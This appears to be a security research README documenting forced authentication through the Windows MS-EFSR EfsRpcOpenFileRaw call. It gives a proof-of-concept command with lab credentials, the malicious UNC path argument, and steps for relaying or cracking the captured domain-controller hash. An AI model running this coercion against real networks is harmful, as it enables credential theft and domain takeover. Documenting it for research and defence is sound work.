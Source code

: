 # MS-EFSR - Remote call to EfsRpcOpenFileRaw (opnum 0)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **SMB Named pipes**: `\pipe\lsarpc`, `\pipe\efsrpc`

 - **Function name**: [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8)

 - **Function operation number**: `0`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\lsarpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcOpenFileRaw`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcOpenFileRaw("\\\\192.168.2.51\\share\\file.txt\x00", 1)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\NETLOGON` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcOpenFileRaw(
    [in] handle_t binding_h,
    [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
    [in, string] wchar_t* FileName,
    [in] long Flags
);
```

 - **binding_h**: An explicit binding handle created by the client. This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.


 - **hContext**: An implementation-specific context handle that is used in subsequent calls by the client to the EfsRpcReadFileRaw method, EfsRpcWriteFileRaw method, or EfsRpcCloseRaw method.


 - **FileName**: An EFSRPC identifier, as specified in section 2.2.1.


 - **Flags**: This MUST be set to some combination of the following values. All servers and clients MUST support the CREATE_FOR_IMPORT flag. Servers that implement a hierarchical encrypted store, such as the NTFS file system, SHOULD also support the CREATE_FOR_DIR flag. Servers SHOULD support the OVERWRITE_HIDDEN flag, and MAY interpret it in implementation-specific ways. A client MUST ensure that all the flags it does not support are set to zero. A server MUST ignore all flags it does not support. Flag values are specified in the following table.
 
| Name | Value | Description |
|---|---|---|
| `CREATE_FOR_IMPORT` | `0x00000001` | Open the object for writing (that is, restore). If this flag is not set, open the object for reading (that is, backup). |
| `CREATE_FOR_DIR` | `0x00000002` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. It indicates that the object being restored is a container for other objects.<42> |
| `OVERWRITE_HIDDEN` | `0x00000004` | This flag is only intended for use in conjunction with the CREATE_FOR_IMPORT flag. This flag indicates a request from the client for the server to overwrite an existing object even if the existing object is "hidden". The meaning of "hidden" is specific to the implementation of the data store, and this meaning does not affect protocol behavior. |
| `EFS_DROP_ALTERNATE_STREAMS` | `0x00000010` | This flag indicates that content from any alternate data streams, if present and implemented by the storage system, will be ignored. |


## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcOpenFileRaw`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8


 - CVE-2021-36942 Windows LSA Spoofing Vulnerability: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942


 - This call was pointed out by [@topotam77](https://twitter.com/topotam77/) on Jul 18, 2021: https://twitter.com/topotam77/status/1416833996923809793